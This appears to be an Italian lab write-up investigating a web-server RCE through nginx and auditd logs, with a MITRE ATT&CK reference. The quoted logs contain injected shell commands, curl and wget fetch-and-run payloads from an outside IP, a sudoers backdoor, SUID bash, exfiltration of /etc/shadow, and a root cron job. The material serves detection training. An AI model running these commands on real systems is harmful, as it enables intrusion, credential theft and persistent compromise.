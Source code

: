 

# 
L’obiettivo di questo esercizio è identificare e ricostruire un tentativo di Remote Code Execution (RCE) sul server web, analizzando i log e correlando gli eventi.
In particolare, il focus è sull’individuazione dell’iniezione di comandi tramite parametri URL e sulla conferma della loro esecuzione a livello di sistema. 

(Ref-MITRE ATT&CK: T1059.004 : Command and Scripting Interpreter)

[ ](../image/a1.png)

[ ](../image/a2.png)

Il mio primo passo è stato cercare nei log di nginx durante il tempo indicato dall’allerta. Ho filtrato le richieste GET sospette che contenevano caratteri di shell (;, |, ecc.). La prima voce rilevante era:
```
2025-08-22 06:15:09 WEB01 nginx[2431]: 198.51.100.24 - - [22/Aug/2025:06:15:09 +0000] "GET /product?id=5;uname+-a HTTP/1.1" 200 432 "-" "Mozilla/5.0"
```

Il punto e virgola e il comando uname -a indicano un tentativo di iniezione di comandi. Questo tipo di comando viene spesso usato per testare se l'esecuzione è possibile. Dovevo confermare se era stato eseguito davvero.
Sono passato ai log di auditd e ho filtrato per voci EXECVE intorno allo stesso orario. Un secondo dopo, ho trovato:
```
2025-08-22 06:15:10 WEB01 auditd[1172]: EXECVE cmd=uname args=["uname","-a"] cwd="/var/www/app" pid=2435 uid=33
```

Questo conferma che il comando è stato eseguito, sotto uid=33, che corrisponde di solito all’utente www-data. Quindi il server era vulnerabile e l’attaccante aveva ottenuto esecuzione di comandi.
Per vedere se continuava, ho cercato altre richieste sospette dallo stesso IP subito dopo. Ho trovato questa:
```
2025-08-22 06:15:22 WEB01 nginx[2431]: 198.51.100.24 - - [22/Aug/2025:06:15:22 +0000] "GET /product?id=5;cat+/etc/passwd HTTP/1.1" 200 1021 "-" "Mozilla/5.0"
```

Ho verificato nei log di auditd per confermare l'esecuzione:
```
2025-08-22 06:15:23 WEB01 auditd[1172]: EXECVE cmd=cat args=["cat","/etc/passwd"] cwd="/var/www/app" pid=2437 uid=33
```

A questo punto avevo un pattern chiaro:

•	L’attaccante ha iniettato comandi shell usando un parametro vulnerabile.

•	Ogni richiesta era seguita da una voce EXECVE che conferma l’esecuzione.

•	Tutti i comandi erano eseguiti con lo stesso utente non-root.

Avevo quindi confermato l’accesso iniziale tramite iniezione di comandi e visto che l’attaccante stava facendo ricognizione. Non c’erano ancora segni di escalation di privilegi, ma il mio prossimo passo era cercare eventuali download di file o cambiamenti nei permessi.

# Esecuzioni successive e primi segnali di escalation
Dopo aver confermato che l’attaccante poteva eseguire comandi, ho cercato nei log se aveva provato a scaricare o eseguire altri script. Ho filtrato nei log nginx le richieste con comandi curl o wget, perché spesso sono usati per scaricare payload.

```
2025-08-22 06:16:18 WEB01 nginx[2431]: 198.51.100.24 - - [22/Aug/2025:06:16:18 +0000] "GET /product?id=5;curl+http://198.51.100.77/shell.sh|bash HTTP/1.1" 200 231 "-" "Mozilla/5.0"
```
Il comando usa curl per scaricare uno script remoto e lo esegue direttamente con bash. Per verificare, ho controllato i log di auditd nello stesso momento:
```
2025-08-22 06:16:19 WEB01 auditd[1172]: EXECVE cmd=curl args=["curl","http://198.51.100.77/shell.sh"] cwd="/var/www/app" pid=2440 uid=33
```

Il comando è stato eseguito come uid=33, quindi lo script remoto è stato scaricato ed eseguito come utente www-data. Ho continuato a cercare per vedere se c’erano altri download. Poco dopo, ho trovato questa seconda richiesta:
```
2025-08-22 06:18:44 WEB01 nginx[2431]: 198.51.100.24 - - [22/Aug/2025:06:18:44 +0000] "GET /product?id=5;wget+http://198.51.100.77/dropper.sh+-O+/tmp/x.sh;sh+/tmp/x.sh HTTP/1.1" 200 452 "-" "Mozilla/5.0"
```

Qui viene scaricato un secondo script (dropper.sh) e salvato in /tmp/x.sh, poi eseguito subito con sh. Nei log auditd ì:
```
2025-08-22 06:18:45 WEB01 auditd[1172]: EXECVE cmd=wget args=["wget","http://198.51.100.77/dropper.sh","-O","/tmp/x.sh"] cwd="/var/www/app" pid=2444 uid=33
```
```
2025-08-22 06:18:45 WEB01 auditd[1172]: EXECVE cmd=sh args=["sh","/tmp/x.sh"] cwd="/var/www/app" pid=2445 uid=33
```
Queste righe confermano che lo script dropper è stato salvato nella cartella temporanea ed eseguito. A questo punto ho iniziato a tracciare tutto ciò che accadeva dopo sh /tmp/x.sh, usando il PID 2445 come riferimento.
Ho trovato altri comandi eseguiti da quello script:
```
2025-08-22 06:19:18 WEB01 bash[2453]: wget: saved file "/tmp/x.sh" size=214 bytes
2025-08-22 06:19:31 WEB01 auditd[1172]: EXECVE cmd=chmod args=["chmod","+x","/tmp/x.sh"] cwd="/var/www/app" pid=2452 uid=33
2025-08-22 06:19:36 WEB01 auditd[1172]: EXECVE cmd=/tmp/x.sh args=["/tmp/x.sh"] cwd="/var/www/app" pid=2453 uid=33
2025-08-22 06:19:39 WEB01 bash[2453]: useradd attacker -m -s /bin/bash
2025-08-22 06:19:44 WEB01 bash[2453]: echo 'attacker ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers
```

Ho notato che lo script ha creato un utente chiamato attacker e ha cercato di modificarne i privilegi. Il file /etc/sudoers richiede privilegi root, quindi a questo punto ho iniziato a sospettare che l’attaccante stesse tentando l’escalation.
Tuttavia, fino a questo momento tutti i comandi risultavano ancora eseguiti come uid=33. Non c’era ancora prova concreta che l’attaccante avesse ottenuto accesso root, ma i tentativi erano chiari.


# Esfiltrazione e persistenza finale
Dopo aver visto che lo script cercava di modificare /etc/sudoers, ho deciso di concentrarmi sui log auditd per trovare segnali di privilege escalation riuscita. Ho continuato a filtrare gli EXECVE dopo l’esecuzione di /tmp/x.sh.
Il primo evento chiave è stato questo:
`
2025-08-22 06:19:50 WEB01 auditd[1172]: EXECVE cmd=chmod args=["chmod","+s","/bin/bash"] cwd="/var/www/app" pid=2455 uid=0 auid=0
`

Qui ho finalmente visto un comando eseguito da uid=0 (root). L’attaccante ha impostato il bit SUID su /bin/bash, creando un backdoor permanente con privilegi root. Questo è un chiaro segnale di escalation completata.
Ho cercato cosa è successo subito dopo ....
```
2025-08-22 06:20:11 WEB01 auditd[1172]: EXECVE cmd=curl args=["curl","-X","POST","-d","$(cat /etc/shadow)","http://198.51.100.77/exfil"] cwd="/var/www/app" pid=2456 uid=0 auid=0
```

L’attaccante ha usato curl per inviare il contenuto di /etc/shadow verso un server remoto. Questo file contiene le hash delle password e può essere letto solo da root. Il fatto che il comando è stato eseguito da uid=0 conferma che i privilegi root erano stati ottenuti con successo.
Infine, ho voluto vedere se era stata impostata qualche forma di persistenza. Ho controllato le modifiche nei file di sistema e ...
```
2025-08-22 06:20:23 WEB01 bash[2453]: cron job created: "* * * * * root /tmp/x.sh" in /etc/crontab
```

Questa voce indica che è stato aggiunto un job cron per eseguire /tmp/x.sh ogni minuto come utente root. È un metodo semplice ma efficace per mantenere accesso continuo al sistema anche dopo un riavvio.

A questo punto ho l'intero quadro dell'attacco:

•	Accesso iniziale tramite iniezione di comandi

•	Download ed esecuzione di payload remoti

•	Escalation dei privilegi tramite chmod +s /bin/bash

•	Esfiltrazione del file /etc/shadow

•	Persistenza tramite cron



